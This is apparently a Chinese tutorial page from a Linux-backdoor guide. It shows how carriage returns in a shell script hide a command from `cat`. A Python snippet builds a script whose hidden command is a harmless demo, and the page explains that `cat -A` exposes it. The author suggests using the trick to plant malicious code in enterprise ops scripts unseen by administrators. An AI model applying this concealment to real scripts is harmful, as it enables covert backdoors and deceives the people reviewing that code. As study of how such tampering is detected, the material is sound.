


# hiding-from-cats

> 原文：[http://book.iwonder.run/安全技术/Linux 后门/8.html](http://book.iwonder.run/安全技术/Linux 后门/8.html)

**cat 隐藏说明**

刚刚在 cron 里面提到了 cat 的一个缺陷。可以利用这个缺陷隐藏恶意命令在一些脚本中。这里的示例我就用 hiding-from-cats 里的例子吧。之所以单列出来，个人认为在一些大型企业的运维工具脚本中可以插入恶意代码，利用 cat 的缺陷还可以使管理员无法发现脚本被做手脚。

cat 其实默认使用是支持一些比如\r 回车符 \n 换行符 \f 换页符、也就是这些符号导致的能够隐藏命令。

使用 python 生成带有换行符的内容 sh：

```
cmd_h = "echo 'You forgot to check `cat -A`!' > oops" # hidden
cmd_v = "echo 'Hello world!'"                         # visible

with open("test.sh", "w") as f:
output = "#!/bin/sh\n"
output += cmd_h + ";" + cmd_v + " #\r" + cmd_v + " " * (len(cmd_h) + 3) + "\n"
f.write(output) 
```



使用 coderunner 生成了一个 test.sh 脚本。cat 看了下脚本的内容是 echo 一个 hello world! 且同目录下只有他本文件。然后我们用 sh test.sh 执行后。



可以看到执行脚本后生成了一个 oops 文件，内容就是 You forgot to check cat -A! 其实可以看出来这样就做到了恶意命令隐藏的效果。其实之前 Cron 后门中的隐藏方法就是利用了这个。如果使用 cat —A 查看 root 文件的话就可以看到计划任务的真正内容了。

